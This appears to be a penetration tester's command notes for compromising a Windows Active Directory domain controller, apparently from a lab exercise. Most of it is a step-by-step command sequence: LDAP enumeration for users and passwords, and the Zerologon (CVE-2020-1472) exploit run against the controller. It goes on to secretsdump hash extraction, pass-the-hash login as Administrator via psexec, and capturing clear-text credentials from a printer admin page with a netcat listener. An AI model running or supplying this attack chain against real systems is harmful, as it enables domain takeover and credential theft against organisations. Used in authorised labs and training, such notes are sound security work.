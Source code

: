 ```yaml
---
category: Uncategorized
tags: []
---
```

#### windapsearch.py

```bash - kali
cd /opt && sudo git clone https://github.com/ropnop/windapsearch
```

```bash - kali
sudo apt install python3-ldap
```

```bash - kali
cd windapsearch && ./windapsearch.py -d resolute.domain.local --dc-ip $TARGET -U
```

```bash - kali
./windapsearch.py -d resolute.domain.local --dc-ip $TARGET -U --full | grep Password
```

```bash - kali
./windapsearch.py -d resolute.domain.local --dc-ip $TARGET -U > users
```

#### ldapsearch
```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=$HOSTNAME,dc=$DOMAIN_NAME" -s sub "*" | grep -i "description"
```

```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=$HOSTNAME,dc=$DOMAIN_NAME" -s sub "*" | grep -i "password"
```

```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=$HOSTNAME,dc=$DOMAIN_NAME" -s sub "*" > ldapsearch.txt
```

![[Pasted image 20220114104148.png]]

0 means "no lock out policy"

Script to verify user's creds:

##### zerologon
```bash - kali
git clone https://github.com/SecuraBV/CVE-2020-1472
```

```bash - kali
cd CVE-2020-1472 && pip install -r requirements.txt
```

Next, look at the nmap results below to find the CN value:

```bash - kali
tcp_389_ldap_nmap.txt
```

![[Pasted image 20220105211456.png]]

```bash - kali
python3 zerologon_tester.py $DOMAIN_NAME $TARGET
```

![[Pasted image 20220105211656.png]]

```bash - kali
/opt/enum4linux-ng/enum4linux-ng.py $TARGET -A -C
```
  
Now add the target to the hosts file:

```bash - kali
sudo echo '$TARGET $DOMAIN' | sudo tee -a /etc/hosts
```

```bash - kali
sudo apt install golang
```

```bash - kali
go get github.com/ropnop/kerbrute
```

```bash - kali
cd kerbrute
```

```bash - kali
make linux
```

```bash - kali
cd dist
```

```bash - kali
./kerbrute_linux_amd64 userenum -d $DOMAIN --dc $DOMAIN /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

```bash - kali
git clone https://github.com/dirkjanm/CVE-2020-1472
```

```bash - kali
cd CVE-2020-1472
```

```bash - kali
sudo python3 cve-2020-1472-exploit.py $DOMAIN_CONTROLLER_NAME $TARGET
```

   
```bash - kali
secretsdump.py -hashes :$HASH '$DOMAIN/$DOMAIN_CONTROLLER_NAME@$TARGET'
```

Using empty LM hash:
```bash - kali
psexec.py Administrator@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```


#### Printer Admin Page

```bash - kali
sudo rlwrap -cAr nc -lvnp 389
```

Navigate to settings page:

![[Pasted image 20220218175015.png]]

Enter your Kali IP in the Server Address field.

Click update, get clear text creds in listener.



